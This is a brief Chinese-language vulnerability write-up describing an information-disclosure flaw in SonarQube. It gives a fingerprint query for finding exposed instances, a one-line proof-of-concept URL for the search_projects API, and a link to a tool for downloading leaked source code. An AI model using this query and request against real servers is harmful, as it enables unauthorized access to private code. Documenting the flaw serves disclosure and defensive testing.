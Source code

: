 # SonarQube search_projects 项目信息泄露漏洞

# SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下



![img](/images/202202101932489.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```

![img](/images/202202101932452.png)

可通过工具下载项目中的源代码 



https://github.com/deletescape/sloot

![img](/images/202202101932586.png)

